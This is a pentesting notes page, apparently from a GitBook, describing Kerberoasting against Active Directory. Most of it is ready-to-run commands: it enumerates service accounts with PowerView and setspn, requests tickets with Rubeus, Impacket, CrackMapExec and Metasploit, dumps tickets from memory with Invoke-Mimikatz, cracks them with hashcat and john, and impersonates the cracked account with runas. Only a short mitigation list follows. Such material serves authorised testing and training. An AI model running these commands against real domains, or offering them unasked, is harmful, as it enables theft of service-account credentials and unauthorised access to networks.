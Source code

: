# Kerberoasting

**Kerberosting** is a post-exploitation attack technique that attempts to **obtain a password hash** of an Acrive Directory account that has a **Service Principal Name (SPN)** enabled.\
In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the SPN. The adversary then works offline to **crack the password hash**, often using brute force technique.\
Once the plaintext credentials of the service account are obtained, the adversary **can impersonate the account owner** and inherit access to any systems, assets or networks granted to the compromised account.

{% hint style="info" %}
**Kerberoasting** is a method of obtaining service account credentials by requesting service tickets from a domain controller and cracking them offline. It allows the attacker to gain access to network resources by using the service account's password hash. **Pass-the-Ticket**, on the other hand, is a technique where an attacker steals a Kerberos ticket-granting ticket (TGT) from a user's session and uses it to impersonate the user to gain access to network resources.
{% endhint %}



#### Methodology:

* **Identify accounts** that have a Service Principal Name (SPN) enabled
* **Request a TGS ticket** for the specified SPN using Kerberos
* **Crack** the password from the TGS ticket.

## Identify Kerberostable account

First we have to detect all user in the domain that has "**Service Principal Name (SPN)**" option **enabled**.

### PowerView (Windows)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import the module
powershell -ep bypass
. .\PowerView.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
</strong>Get-NetUser -SPN | select serviceprincipalname
</code></pre>

```powershell
Invoke-Kerberoast
Get-DomainObject -Identity $ACCOUNT_NAME 
```

### setspn.exe (Windows)

**setspn.exe** is a built-in binary. Focus on user accounts.

```powershell
setspn.exe -Q */*
setspn -T $CD_NAME -Q */*
```

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



### kerberost tool (Linux)

{% embed url="https://github.com/skelsec/kerberoast" %}

Install the package with pip:

```bash
pip3 install kerberoast
```

Run this commands:

{% code overflow="wrap" %}
```bash
kerberoast ldap spn 'ldap+ntlm-password://$DOMAIN.local\$USER:$PASS@$DC_IP' -o kerberoastable
```
{% endcode %}



## Get TGS tickets

Once we have a list with all kerberostable account, we can try to get the TGS of the accounts.

### Rubeus.exe (Windows)

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into a WIndows target and run it:

```powershell
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:
.\Rubeus.exe kerberoast /simple /outfile:hashes.kerberoast
```

### Msfconsole (Linux)

```bash
msf> use auxiliary/gather/get_user_spns
```



### targetedKerberoast

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" %}
```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```
{% endcode %}

### GetUserSPNs.py (Linux)

The Impacket script **GetUserSPNs (Python)** can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py" %}

Copy the script and run this commands:

{% code overflow="wrap" %}
```bash
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN.local/$USER -outputfile hashes.kerberoast

# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $DC_IP
'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip
$DC_IP 'DOMAIN/USER'
```
{% endcode %}

### CrackMapExec

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting
kerberoastables.txt --kdcHost $DC_IP
```



### setspn (Windows)

{% code overflow="wrap" %}
```powershell
# Get TGSs for all kerberostable accounts
setspn.exe -T $DOMAIN.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 

# List kerberos tickets in memory
klist

# Import the module in powershell
. .\Invoke-Mimikatz.ps1

# extract the tgs tickets from memory
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
{% endcode %}

### PowerView

```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "$SPN" 
```

Once the object has created we can use tool like mimikatz to extract the ticket.

Copy the mimikatz invoke into a file and transfer it into a target machine.

{% embed url="https://github.com/PowershellMafia/Powersploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1" %}

```powershell
# Import the module in powershell
. .\Invoke-Mimikatz.ps1

# extract the tgs tickets from memory
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

This command create a file named with the TGS ticket to crack

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

## Crack the TGS tickets

### tgsrepcrack (.kirbi crack)

{% embed url="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" %}

Copy the script above and run it:

```bash
python tgsrepcrack.py /PATH/TO/rockyou.txt $TGS_TICKET.kirbi
```

### .txt output crack

```bash
hashcat -m 13100 -o creds.txt -a 0 ./$KRB5TGS.txt ./rockyou.txt

john --format=krb5tgs --wordlist=.../rockyou.txt $KRB5TGS.txt
```



## Use Cracked Creds

Once we have obtained the credentials from tgs tickets, we can impesonate the hacked account.

```powershell
# spawn a powershell as hacked account
runas /netonly /User:$USER powershell.exe
```







## Resources:

{% embed url="https://www.picussecurity.com/resource/blog/kerberoasting-attack-explained-mitre-attack-t1558.003" %}





## Mitigations

To avoid this type of attack, we can:

* Use strong Passwords
* Least Privilege





